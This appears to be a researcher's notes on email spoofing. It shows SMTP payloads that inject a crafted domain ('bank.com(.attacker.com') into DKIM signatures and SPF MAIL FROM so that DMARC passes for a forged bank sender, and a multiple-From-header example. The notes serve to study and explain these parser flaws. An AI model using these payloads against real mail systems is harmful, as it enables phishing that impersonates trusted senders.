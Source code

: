 ### DKIM Authentication Results Injection

```
HELO attack.com
MAIL FROM: <any@attack.com>

----------------------------------------
DKIM-Signature:...;d=bank.com(.attacker.com;s=any;...
From: <sec@bank.com>
To: <victim@victim.com>

Dear,...
```

- Attacker signs the messsage with his private key and sends the message
- When receiving the message, DKIM use `any.bank.com(.attacker.com` to obtain public key and this is domain of attacker ⇒ DKIM pass
- Authentication-Result will be:
    
    ```
    Authentication-Results:	dkim=pass (1024-bit key)
    			reason="signature ok" header.d=bank.com(.attacker.com
    ```
    
    - DMARC will parses the content after `(` character as a comment ⇒ uses `bank.com` to check alignment with From header ⇒ DMARC pass

### SPF Authentication Results Injection

```
HELO attack.com
MAIL FROM: <any@bank.com(.attacker.com>

----------------------------------------
From: <sec@bank.com>
To: <victim@victim.com>

Dear,...
```

- SPF will verify `bank.com(.attacker.com` in MAIL FROM and attack.com in HELO, because this is attacker’s domain → attacker can control this ⇒ SPF pass
- Authentication-Result will be:
    
    ```
    Authentication-Results: attack.com; spf=pass
    			smtp.mailfrom=any@bank.com(.attacker.com
    ```
    
    - DMARC parsers `(` character as comment and smtp.mailfrom is equal to `any@bank.com` and has the same domain with the From header ⇒ DMARC pass

### Multiple From headers

```
From: <any@attack.com>
From: <admin@bank.com>
To: <victim@victim.com>

Dear,...
```

